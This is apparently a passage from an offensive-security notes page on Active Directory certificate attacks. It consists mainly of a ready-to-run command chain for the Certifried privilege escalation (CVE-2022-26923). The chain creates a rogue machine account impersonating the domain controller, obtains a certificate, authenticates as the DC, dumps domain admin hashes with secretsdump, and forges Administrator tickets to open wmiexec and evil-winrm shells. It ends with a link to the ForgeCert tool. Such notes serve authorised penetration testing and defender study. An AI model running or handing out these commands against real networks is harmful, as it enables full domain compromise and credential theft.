 [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

[https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

## Certifried - CVE-2022–26923

{% code overflow="wrap" fullWidth="true" %}
```bash
https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
# Having domain user creds, create an account and set a fake dns name as the domain controller.
certipy account create -u $user@domain.local -p '$PASS' -user 'certifriedpc' -pass 'certifriedpass' -dns 'sub.domain.local'
#     Request a certificate with the created computer on template Machine
certipy req -u 'certifriedpc$'@domain.local -p 'certifriedpass' -target $FQDN -ca DOMAIN-CA -template Machine
#     Authenticate with the certificate as the DC (DC$ or TARGET_SAMNAME$ should be the same, try both in case of doubt)
certipy auth -pfx file.pfx -username 'DC$' -domain domain.local -dc-ip $DC_IP
#     Dump the ndts with the kerberos ticket we just get
export KRB5CCNAME=/workspace/certifried/meereen.ccache
secretsdump -k -no-pass -just-dc-user $DOMAIN_ADMIN_USER DOMAIN.LOCAL/'TARGET_SAMNAME$'@dc.domain.local
#     delete the created computer with a domain admin user
certipy account delete -u $DOMAIN_ADMIN_USER@domain.local -hashes 'aad3b435b51404eeaad3b435b51404ee:$LM_HASH' -user 'certifriedpc'

# In case we cannot DCSync or we just want a shell, use the DC TGT we got previously to impersonate Administrator
export KRB5CCNAME=administrator.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'CIFS/dc.domain.local' -k -no-pass -dc-ip 'dc.domain.local' 'domain.local'/'$DOMAIN'
#     and now we can use our ticket
export KRB5CCNAME=administrator@CIFS...LOCAL.ccache
wmiexec.py -k @dc.domain.local
# In case we want to use WinRM we need HTTP altservice
export KRB5CCNAME=administrator.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'HTTP/dc.domain.local' -k -no-pass -dc-ip 'dc.domain.local' 'domain.local'/'$DOMAIN'
export KRB5CCNAME=administrator@CIFS...LOCAL.ccache
evil-winrm -i meereen.essos.local -r ESSOS.LOCAL
```
{% endcode %}

## Forge certificate using stolen CA certificate (ForgeCert)

[https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
